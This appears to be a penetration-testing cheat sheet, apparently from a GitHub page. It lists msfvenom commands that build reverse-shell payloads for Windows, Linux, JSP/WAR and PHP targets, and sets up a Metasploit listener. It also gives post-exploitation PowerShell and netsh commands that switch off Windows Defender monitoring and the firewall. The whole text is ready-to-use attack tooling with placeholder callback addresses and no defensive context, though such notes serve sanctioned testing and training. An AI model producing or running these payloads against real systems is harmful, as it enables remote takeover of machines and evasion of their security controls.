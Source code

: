 ### Check msfvenom payloads
```bash
msfvenom -l payloads
```

###
```bash
msfconsole
use exploit/multi/handler
set lhost x.x.x.x
set Iport 4444
exploit

#windows (stageless)
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 EXITFUNC=thread -b "\x00" -f python -v shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f asp > shell.asp

#Linux (stageless)
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f war > shell.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f raw > shell.jsp
```

### What to do after you are Windows Admin in Powershell
Disable realtime monitoring: `Set-MpPreference -DisableRealtimeMonitoring $true`
Disable AV: `Set-MpPreference -DisableIOAVProtection $true`
off states: `netsh advfirewall set allprofiles state off`


### MSFVenom Reverse Shell Payload Cheatsheet (see stageless)
- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
- Windows file transfer only uses **FTP, powershell, certutil**
```bash 
#Non-Meterpreter Binaries

#Staged Payloads for Windows
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

#Stageless Payloads for Windows
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

#Staged Payloads for Linux
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

#Stageless Payloads for Linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

#Non-Meterpreter Web Payloads
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
